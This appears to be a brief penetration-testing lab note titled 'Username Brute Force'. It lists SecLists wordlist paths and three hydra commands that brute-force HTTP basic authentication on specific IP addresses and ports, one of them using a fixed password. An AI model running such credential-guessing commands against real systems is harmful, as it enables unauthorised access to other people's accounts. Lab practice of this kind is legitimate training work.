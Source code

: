 # Username Brute Force

```shell-session
/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt
```



```shell-session
/opt/useful/SecLists/Usernames/Names/names.txt
```

{% code overflow="wrap" %}
```
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```
{% endcode %}

{% code overflow="wrap" %}
```
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```
{% endcode %}

{% code overflow="wrap" %}
```
hydra -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt 83.136.253.102 -s 51865 -u -f http-get /
```
{% endcode %}
